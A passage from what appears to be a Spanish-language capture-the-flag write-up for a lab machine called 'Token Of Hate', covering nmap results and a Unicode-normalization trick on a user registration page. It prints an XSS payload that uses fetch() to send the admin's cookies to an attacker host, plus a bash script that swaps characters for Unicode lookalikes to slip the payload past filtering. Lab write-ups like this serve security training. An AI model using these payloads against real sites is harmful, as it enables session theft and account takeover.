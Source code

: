 ```ruby

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Mar  9 18:02:59 2025 -- 1 IP address (1 host up) scanned in 7.05 seconds
```

 Podemos ver 2 puertos abiertos:

 • `Puerto 22: OpenSSH 9.2p1 Debian`

 • `Puerto 80: Apache httpd 2.4.62`

y podemos ver que es un debian.

### Puerto 80

En el puerto 80 podemos ver unos datos bastante interesantes:

```css
En nuestra plataforma Token Of Hate, los nombres de usuario pueden contener caracteres Unicode, lo que permite el uso de acentos, caracteres especiales y emojis para una mayor personalización y accesibilidad. Sin embargo, para garantizar la compatibilidad con sistemas más antiguos y ciertos procesos internos, utilizaremos una versión ASCII equivalente de cada nombre de usuario.
```

como vemos, dice que pasa caracteres unicode a ascii para tener compatibilidad con equipos viejos, y si buscamos un poco para ver si podemos aprovechar algo como eso, veremos que podemos aprovecharlo para muchas cosas: [Bypass_WAF_Unicode](https://jlajara.gitlab.io/Bypass_WAF_Unicode)

Además podemos ver otro mensaje que dice que el usuario administrador revisa constantemente los usuarios registrados, sabiendo esto podemos pensar que se reflejan en algún lado y podemos pensar en un `xss` para robar los cookies del admin. Para hacerlo, simplemente crearemos un payload el cual nos envíe las cookies y luego utilizaremos un script muy simple que solo reemplaza caracteres por unos parecidos, lo cual hará que al pasarlo a ascii y representarse en la página se de el `xss` ya que nuestro payload volverá a la normalidad:

```html
<script>fetch("http://192.168.56.1:5454/c?=" + document.cookie);</script>
```

esto lo metemos en un archivo llamado payload.

Ahora, creamos el script:

```css
#!/bin/bash



if [ $# != 1 ]; then
  echo -e "Error"
  exit 1
fi

archivo=$1

cat $archivo | sed 's/>/﹥/g' | sed 's/</＜/g' | sed 's/(/⁽/g' | sed 's/)/⁾/g' | sed 's/=/⁼/g' | sed 's/"/＂/g' | sed "s/'/＇/g" | sed 's/{/﹛/g' | sed 's/}/﹜/g' | sponge $archivo
```
